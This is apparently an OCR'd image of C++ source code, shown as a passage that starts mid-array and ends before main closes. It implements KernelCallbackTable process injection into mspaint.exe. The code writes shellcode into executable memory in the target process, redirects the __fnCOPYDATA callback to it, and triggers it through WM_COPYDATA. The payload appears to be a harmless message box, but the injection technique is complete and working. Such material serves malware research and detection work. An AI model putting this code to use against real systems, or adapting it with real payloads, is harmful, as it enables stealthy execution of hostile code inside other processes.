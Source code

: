 ```cpp
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  DWORD pid;
  PROCESS_BASIC_INFORMATION pbi;
  KERNELCALLBACKTABLE kct;
  COPYDATASTRUCT cds;
  PEB peb;
  WCHAR msg[] = L"kernelcallbacktable injection impl";

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pNtQueryInformationProcess myNtQueryInformationProcess = 
  (pNtQueryInformationProcess)(GetProcAddress(
  ntdll, "NtQueryInformationProcess"));

  myNtQueryInformationProcess(ph, 
  ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

  ReadProcessMemory(ph, pbi.PebBaseAddress, 
  &peb, sizeof(peb), NULL);
  ReadProcessMemory(ph, peb.KernelCallbackTable, 
  &kct, sizeof(kct), NULL);

  LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload),
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct),
  MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
  kct.__fnCOPYDATA = (ULONG_PTR)rb;
  WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);

  WriteProcessMemory(ph, 
  (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable),
  &tb, sizeof(ULONG_PTR), NULL);

  cds.dwData = 1;
  cds.cbData = lstrlen((LPCSTR)msg) * 2;
  cds.lpData = msg;

  SendMessage(hw, WM_COPYDATA, (WPARAM)hw, (LPARAM)&cds);
  WriteProcessMemory(ph, 
  (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable),
  &peb.KernelCallbackTable, sizeof(ULONG_PTR), NULL);

  VirtualFreeEx(ph, rb, 0, MEM_RELEASE);
  VirtualFreeEx(ph, tb, 0, MEM_RELEASE);
  CloseHandle(ph);

```